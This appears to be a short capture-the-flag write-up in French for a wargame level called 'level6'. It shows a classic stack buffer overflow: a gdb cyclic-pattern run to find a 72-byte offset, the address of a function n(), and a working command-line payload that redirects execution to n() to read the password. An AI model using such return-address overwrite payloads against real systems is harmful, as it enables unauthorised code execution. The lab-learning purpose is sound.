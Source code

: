 # level6

# en desassemblant le code on remarque que la fonction m() est appeler mais elle ne sert a rien, nous on voudrait qu'elle appelle la fonction n() pour récupérer le pass

# pour cela nous allons fare une attaque par buffer overflow en faisant en sorte d'avoir l'adresse de n() en adresse de retour (https://sancy.iut-clermont.uca.fr/~lafourcade/2018PreZSecu/Buffer%20Overflow.pdf)

(https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)

(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()

0x41346341 -> offset 72

# info functions nous donne l'adresse de n() -> 0x08048454

./level6 $(python -c 'print "\x90" * 72 + "\x54\x84\x04\x08"')